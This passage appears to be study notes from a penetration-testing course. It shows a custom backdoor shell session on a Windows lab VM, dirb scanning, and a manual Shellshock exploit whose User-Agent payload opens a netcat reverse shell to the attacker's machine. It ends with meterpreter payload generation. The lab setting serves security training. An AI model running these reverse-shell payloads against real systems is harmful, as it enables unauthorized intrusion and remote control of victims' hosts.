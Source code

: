 ```
09/15/2022  07:39 AM    <DIR>          ..
09/15/2022  07:39 AM         6,347,195 client.exe
               1 File(s)      6,347,195 bytes
               2 Dir(s)  25,498,275,840 bytes free

* Shell~('<win10 vm ip>', 50120): cd ..
* Shell~('<win10 vm ip>', 50120): dir
 Volume in drive C is Windows 10
 Volume Serial Number is E88E-9782

 Directory of C:\Users\IEUser\Documents\module12

09/15/2022  07:39 AM    <DIR>          .
09/15/2022  07:39 AM    <DIR>          ..
09/15/2022  07:39 AM    <DIR>          backdoor
09/15/2022  07:39 AM    <DIR>          build
09/15/2022  07:39 AM               866 client.spec
09/15/2022  07:39 AM    <DIR>          dist
09/15/2022  07:34 AM                18 test_doc.txt
               2 File(s)            884 bytes
               5 Dir(s)  25,498,275,840 bytes free

* Shell~('<win10 vm ip>', 50120): upload moustache.txt #OK
```

# Section 13 : Webapp pentest
## Intro
## Info gathering, Dirb tool
- use scanning tools : dirb tool, harvester, nmap, etc.
- dirb : scann website, like owasp tool
```
┌──(kali㉿kali)-[~]
└─$ dirb http://<metasploitable ip>
```

## ShellShock exploit
- get and create vulnerable vm : https://pentesterlab.com/exercises/cve-2014-6271/attachments
- access it's web homepage and look at web response with burp
- bash empty fct : `() { :;};`
- shellshock vuln = write any cmd after empty function

### manual exploit
- use burb repeater to reapat a request : add `() { :;}; /bin/bash -c 'nc <kali ip>'` in Use-Agent :
`User-Agent: () { :;}; /bin/bash -c 'nc <kali ip> 12345 -e /bin/bash'`
- setup listerner on kali + exec cmd
```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 12345
listening on [any] 12345 ...
connect to [<kali ip>] from vulnerable.home [<shellshock ip>] 37813
hostname
vulnerable
whoami
pentesterlab
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate